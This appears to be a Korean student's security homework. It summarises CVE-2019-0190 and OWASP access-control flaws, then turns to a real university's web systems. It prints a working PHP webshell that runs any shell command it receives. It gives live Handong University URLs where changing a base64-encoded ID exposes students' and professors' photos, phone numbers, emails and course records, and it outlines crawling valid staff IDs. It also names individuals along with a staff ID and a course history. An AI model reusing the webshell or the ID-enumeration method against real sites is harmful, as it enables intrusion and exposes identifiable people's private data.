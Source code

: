 # HW1
### 1. CVE-2019-0190

mod_ssl 2.4.37 remote DoS when used with OpenSSL 1.1.1 

*A bug exists in the way mod_ssl handled client renegotiations. A remote attacker could send a carefully crafted request that would cause mod_ssl to enter a loop leading to a denial of service. This bug can be only triggered with Apache HTTP Server version 2.4.37 when using OpenSSL version 1.1.1 or later, due to an interaction in changes to handling of renegotiation attempts.

아파치 2.4.37버전에서 OpenSSl 1.1.1버전을 사용할 때, renegotiations 요청의 처리에 대한 변경사항을 악용해 조작하여 요청하면 mod_ssl을 무한 루프에 빠지게 하는 DoS공격으로 이어질 수 있는 취약점. **현재는 패치된 상태이다

### 2. OWASP에서 말하는 웹 취약점

취약한 접근 통제와 잘못된 보안 구성

 1.접근할 수 있는 권한이나 시스템 정보를 얻기 위해 패치 되지 않은 취약점을 공격하거나 디폴트 계정, 미사용 페이지, 보호받지 못하는 파일이나 디렉토리에 접근을 시도한다.

 2.방지 : 세분화, 컨테이너화, 클라우드 보안 그룹과 같은 방법으로 구성요소나 입주자들 간에 효율적이고 안전한 격리를 제공.
 불필요한 기능, 구성 요소, 문서, 샘플 애플리케이션 없이 최소한으로 플랫폼을 유지하고 사용하지 않는 기능과 프레임 워크는 삭제.

대표적인 예 : 한동대의 웹페이지들
![image](https://blogfiles.pstatic.net/MjAxOTA3MDlfMjc4/MDAxNTYyNjU0NTg2MzE0.ZJK_34LnlXKuwll25TNIbMGRDXbluZY85VYXAAO51uUg.0M66IJxGffdbOk0afclh4o_9MrOtyDI0nlb6XFoAoCYg.PNG.potenpanda/KakaoTalk_Photo_2019-07-09-15-42-49.png)

위의 사진과 같이 주소를 조작해 잘못된 database를 보내니 해당하는 서비스 검색을 제공하는 php파일이 들어있는 경로 유출.

또한 사이트 자체가 병렬적인 구조를 가지고 있어 그저 주소창에 입력하는것만으로도 원래 필요한 절차를 건너 뛸 수 있음.
인코딩 또한 base64를 통해서 간단하게 변환 가능.

ffive - smartcampus 아카이브에 공개된 취약점의 대부분이 이러한 구조때문에 노출된 것.

### 3. 실제 감동 실화

 1.2019년 4월 1일 - 킹-갓-보안왕 한찬솔 님께서 히즈넷 신청/예약 페이지를 농락하심
 
 2.간단한 webshell 코드.
 
 ``` <html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if($_GET['cmd'])
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
 ```

### 4. 끄적이다 찾은거.

그냥 어제 끄적이다가 발견한것. smartcampus에 안올라 와있으나 이미 알고 있는 정보일 수도 있음.

http://smart.handong.edu/students/index.php/main/lookup_lists/MjE4MDAzNzA=/v4/
이름 검색시 사진, 전화번호, 이메일 한번에 열람 가능

위에꺼에서 바꾸다가 알게된거

http://smart.handong.edu/students/index.php/main/lookup_lists/MjE4MDAzNzA=/v2/
저기에 있는 학번(현재는 내꺼)를 직번으로 바꾸면 해당 교수님의 역대 팀 구성원들 정보(개인정보 포함), 전공팀 정보, 자신의 개설과목 수강신청 정보(아쉽게도? 성적은 못봄)등 유익한 정보들 열람 가능.

예 ) 존경하는 킹 갓 이종원 교수님 10050의 직번 -> MTAwNTA=

홍참길 교수님은 03년 1학기 이종원 교수님의 회로이론 1을 수강하였다.
![모자이크 못해서 죄송해요](https://postfiles.pstatic.net/MjAxOTA3MDlfMTQw/MDAxNTYyNjY0MTk0NjAx.1XxuL5DlgUygbCnFnvSBukkNjDUKYL3glzN7WEgPDHIg.RycCZRSfaS37ptufIk2wyL_YKcY5DQ9QN6tj9d7lEUog.PNG.potenpanda/%EC%8A%A4%ED%81%AC%EB%A6%B0%EC%83%B7_2019-07-09_%EC%98%A4%ED%9B%84_6.22.19.png?type=w773)

 *존재하는 직번이면 css selector div h4의 이름이 **학생정보 조회**, 존재 하지 않으면 **교직원 조회** 라고 뜸.
이걸 이용해서 조건문을 돌려 유효하는 교수님의 이름과 직번 traversal해서 크롤링 가능. (api/user 페이지에 없는 교수님들도 있기 때문에)





